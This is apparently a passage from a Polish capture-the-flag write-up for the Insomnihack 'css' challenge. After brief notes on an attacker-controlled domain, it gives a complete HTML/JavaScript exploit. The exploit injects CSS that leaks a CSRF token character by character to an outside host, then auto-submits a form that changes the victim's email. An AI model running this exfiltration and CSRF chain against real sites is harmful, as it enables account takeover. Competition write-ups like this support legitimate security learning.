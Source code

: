 - Używamy domeny `http://css.teaser.insomnihack.ch.nazywam.p4.team`.
- Adres `http://css.teaser.insomnihack.ch.nazywam.p4.team/get_token` blokuje aż nie dostaniemy requestu z CSS, wtedy zwraca pasującą literę


```html
<html>
<head>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<script>
var token = '';
function gen_src()
{
    src = 'http://css.teaser.insomnihack.ch/?page=login&redirect=%22%3E%3Clink%20rel=%22stylesheet%22%20href=%22?page=search%26search=%25%250a{}%250a'
   
    chars = "0123456789abcdef"
    for(c = 0; c < 16; c++)
        src += 'input[value^=%27'+token+chars[c]+'%27%20i]{background:url(%27http:%252f%252fcss.teaser.insomnihack.ch.nazywam.p4.team%252fsave%252f'+chars[c]+'%27);}%250a'
    document.getElementById('ramek').src = src;
    console.log(src);
 
    $.ajax({
    type: "GET",
    url: "http://css.teaser.insomnihack.ch.nazywam.p4.team/get_token",
    //async: false,
        success: function (data) {
            console.log(data);
            token += data;
            if(token.length < 32)
            {
                gen_src();
                }
            else
            {
                console.log(token);
                document.getElementById('csrf').value=token;
                document.getElementById('form').submit();
            }
        }
        });
}
</script>
</head>
<body onload="gen_src()">
<iframe id="ramek"></iframe>
<form action="http://css.teaser.insomnihack.ch/?page=profile" method="POST" id="form">
            <input type="text" name="name" value="p4"/>
            <input type="text" name="age" value="31337"/>
            <input type="text" name="country" value="p4"/>
            <input type="text" name="email" value="EMAIL_WE_CONTROL"/>
            <input type="hidden" name="csrf" value="" id="csrf"/>
            <input type="hidden" name="change" value="Modify profile"/>
        </tr>
    </form>
</body>
</html>
```
